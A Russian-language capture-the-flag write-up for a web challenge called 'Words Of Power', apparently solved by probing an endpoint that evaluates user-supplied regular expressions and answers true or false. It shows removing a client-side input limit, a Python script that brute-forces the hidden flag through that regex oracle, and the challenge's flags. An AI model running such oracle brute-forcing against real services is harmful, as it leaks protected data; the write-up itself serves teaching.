



# Words Of Power

1. На странице нас ожидает синий крутящийся портал, два слеша `/ /`, поле для ввода между ними, и кнопка отправки. Первым делом попробуем ввести что-нибудь в инпут:
   


2. Введем теперь что-нибудь еще:
   


3. Поэкспериментировав и еще раз посмотрев на два слеша нетрудно догадаться, что приложение применяет регулярное выражение к некоторому тексту. 
   
4. Теперь заглянем в девтулзы, откроем вкладку `Network` и посмотрим, что происходит при отправке. Выполняется запрос на `/cast/{word}`, в котором word - написанное нами слово, закодированное с помощью base64. Результат запроса - `true` или `false`.

5. Нам нужно получить флаг, и мы знаем в каком он формате. Попробуем написать в поле `VrnCTF{[^]+}`. О чудо - портал зеленый. Значит, наверно, мы действуем правильно.



6. На этом моменте мы столкнемся с проблемой - в поле для ввода нельзя ввести больше 12 символов. Это ограничение можно легко убрать, изменив в коде элемента `maxlength="12"` на, к примеру, 100.

7. Начнем подбирать флаг. Указанное нами в последний раз регулярное выражение `VrnCTF{[^]+}` означает, что в фигурных скобках должно находиться несколько символов (больше нуля). Т.к. ограничения на количество вводимых символов больше нет, то начнем уточнять наш запрос. Введем `VrnCTF{a[^]+}` и увидим, что портал все еще зеленый. На `VrnCTF{ab[^]+}` - красный. Развлекаться так можно долго :) Особенно учитывая то, что в тексте находятся три флага, и только один из них правильный.

8. Проще всего написать скрипт, который будет делать эти действия за нас. Ведь сайт предоставляет нам страницу `/cast/{word}`. Предлагаю решение на Python

```python
import requests
from requests.utils import requote_uri
import base64

link = "http://site-url"

def gen_payload(flag):
    return base64.b64encode(str(requote_uri("VrnCTF{" + flag + "[^]*}")).encode()).decode()


alpabet = "abcdefghijklmnopqrstuvwxyz1234567890_"
flag = ""

for first_char in alpabet:
    flag = first_char
    print(flag)

    if requests.get(link + "/cast/" + gen_payload(flag)).text == "false":
        continue

    while True:
        found = False
        for c in alpabet:
            temp_flag = flag + c
            r = requests.get(link + "/cast/" + gen_payload(temp_flag))

            if r.text == "true":
                flag = temp_flag
                print(flag)
                found = True
                break
        if not found:
            if len(flag) > 1:
                print("Done: VrnCTF{" + flag + "}")
            break

```

   Этот скрипт найдет все три флага: `VrnCTF{a_wr0ng_fl4g}`, `VrnCTF{th15_15_wr0ng_t00}` и `VrnCTF{r3g3xp_15_c00l}`, верный из которых, очевидно, последний.